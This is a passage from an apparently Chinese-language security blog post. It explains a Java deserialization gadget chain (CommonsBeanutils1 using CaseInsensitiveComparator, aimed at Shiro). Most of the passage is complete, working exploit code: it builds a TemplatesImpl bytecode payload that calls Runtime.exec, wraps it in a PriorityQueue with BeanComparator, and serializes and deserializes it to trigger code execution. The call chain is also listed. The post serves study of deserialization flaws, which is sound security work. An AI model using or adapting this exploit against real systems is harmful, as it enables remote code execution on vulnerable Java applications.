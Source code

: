 这里找到一个`java.lang.String$CaseInsensitiveComparator`类
![](https://img-blog.csdnimg.cn/1d24bf2e7bb8472eb34e649aa56b0c45.png)
这个类是`java.lang.String`类下的一个内部私有类，其实现了`Comparator`和`Serializable`
我们可以通过`String.CASE_INSENSITIVE_ORDER`即可拿到上下文中的`CaseInsensitiveComparator`对象，用它来实例化 BeanComparator
```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
public class cb1_shiro {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        ClassPool classPool=ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass payload=classPool.makeClass("CommonsBeanutils1");
        payload.setSuperclass(classPool.get(AbstractTranslet));
        payload.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        byte[] bytes=payload.toBytecode();

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{bytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add("1");
        queue.add("1");
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cb1"));
            outputStream.writeObject(queue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cb1"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }

    }
}
```
调用链：
```
PriorityQueue.readObject()
  PriorityQueue.heapify()
  PriorityQueue.siftDown()
  PriorityQueue.siftDownUsingComparator()
    comparator.compare() === BeanComparator.compare()
      TemplatesImpl.getOutputProperties()
```